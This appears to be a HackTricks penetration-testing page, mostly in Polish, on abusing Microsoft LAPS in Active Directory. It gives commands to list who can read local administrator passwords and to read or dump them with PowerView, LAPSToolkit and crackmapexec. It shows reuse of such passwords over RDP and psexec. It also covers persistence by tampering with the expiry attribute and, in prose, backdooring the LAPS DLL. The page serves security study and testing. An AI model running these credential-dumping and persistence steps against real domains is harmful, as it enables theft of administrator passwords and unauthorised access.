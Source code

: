 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Podstawowe informacje

Local Administrator Password Solution (LAPS) to narzędzie używane do zarządzania systemem, w którym **hasła administratorów**, które są **unikalne, losowe i często zmieniane**, są stosowane do komputerów dołączonych do domeny. Te hasła są bezpiecznie przechowywane w Active Directory i są dostępne tylko dla użytkowników, którzy otrzymali pozwolenie za pośrednictwem list kontroli dostępu (ACL). Bezpieczeństwo transmisji haseł z klienta do serwera zapewnia użycie **Kerberos wersja 5** oraz **Advanced Encryption Standard (AES)**.

W obiektach komputerów w domenie wdrożenie LAPS skutkuje dodaniem dwóch nowych atrybutów: **`ms-mcs-AdmPwd`** oraz **`ms-mcs-AdmPwdExpirationTime`**. Atrybuty te przechowują **hasło administratora w postaci jawnej** oraz **czas jego wygaśnięcia**, odpowiednio.

### Sprawdź, czy jest aktywowane
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

Możesz **pobrać surową politykę LAPS** z `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol`, a następnie użyć **`Parse-PolFile`** z pakietu [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser), aby przekonwertować ten plik na format czytelny dla ludzi.

Ponadto, **natywne cmdlety PowerShell LAPS** mogą być używane, jeśli są zainstalowane na maszynie, do której mamy dostęp:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** może być również użyty do ustalenia **kto może odczytać hasło i je odczytać**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) ułatwia enumerację LAPS za pomocą kilku funkcji.\
Jedną z nich jest analizowanie **`ExtendedRights`** dla **wszystkich komputerów z włączonym LAPS.** To pokaże **grupy** specjalnie **delegowane do odczytu haseł LAPS**, które często są użytkownikami w chronionych grupach.\
**Konto**, które **dołączyło komputer** do domeny, otrzymuje `All Extended Rights` nad tym hostem, a to prawo daje **konta** możliwość **odczytu haseł**. Enumeracja może pokazać konto użytkownika, które może odczytać hasło LAPS na hoście. To może pomóc nam **skierować się na konkretnych użytkowników AD**, którzy mogą odczytać hasła LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Jeśli nie ma dostępu do powershell, możesz nadużyć tego uprawnienia zdalnie przez LDAP, używając
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
To będzie zrzut wszystkich haseł, które użytkownik może odczytać, co pozwoli ci uzyskać lepszą pozycję z innym użytkownikiem.

## ** Używanie hasła LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Data wygaśnięcia**

Po uzyskaniu uprawnień administratora, możliwe jest **uzyskanie haseł** i **zapobieżenie** maszynie w **aktualizacji** swojego **hasła** poprzez **ustawienie daty wygaśnięcia w przyszłość**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Hasło nadal zostanie zresetowane, jeśli **administrator** użyje polecenia **`Reset-AdmPwdPassword`**; lub jeśli w LAPS GPO jest włączona opcja **Nie pozwalaj na czas wygaśnięcia hasła dłuższy niż wymagany przez politykę**.
{% endhint %}

### Backdoor

Oryginalny kod źródłowy dla LAPS można znaleźć [tutaj](https://github.com/GreyCorbel/admpwd), dlatego możliwe jest umieszczenie backdoora w kodzie (w metodzie `Get-AdmPwdPassword` w `Main/AdmPwd.PS/Main.cs`, na przykład), który w jakiś sposób **wyeksfiltruje nowe hasła lub przechowa je gdzieś**.

Następnie wystarczy skompilować nowy `AdmPwd.PS.dll` i przesłać go na maszynę do `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (i zmienić czas modyfikacji).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
